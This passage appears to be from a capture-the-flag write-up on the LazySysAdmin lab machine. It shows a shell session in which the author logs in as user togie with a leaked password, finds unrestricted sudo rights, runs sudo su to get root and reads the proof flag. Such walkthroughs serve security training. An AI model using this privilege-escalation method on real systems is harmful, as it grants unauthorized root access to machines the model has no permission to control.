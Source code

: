 
---
---

# Privilege Escalation

With the password from `deets.txt` which was 12345 and the username of togie, let's login as togie

```bash
www-data@LazySysAdmin:/home/togie$ su togie
su togie
Password: 12345

togie@LazySysAdmin:~$ 

# We need to examine the permission that this user has
togie@LazySysAdmin:~$ sudo -l
sudo -l
[sudo] password for togie: 12345

Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

# This is important, we can use ALL commands
User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
togie@LazySysAdmin:~$ 

# but access to root is still denied
togie@LazySysAdmin:~$ cd /root
cd /root
rbash: cd: restricted

# But if we use the command to change to super/substitute user, we can get access to the root directory - Misconfigured Sudo Permissions
togie@LazySysAdmin:~$ sudo su
sudo su
root@LazySysAdmin:/home/togie# cd /root
cd /root
root@LazySysAdmin:~# ls
ls
proof.txt
root@LazySysAdmin:~# cat proof.txt
cat proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851

Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie

Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
root@LazySysAdmin:~#
```
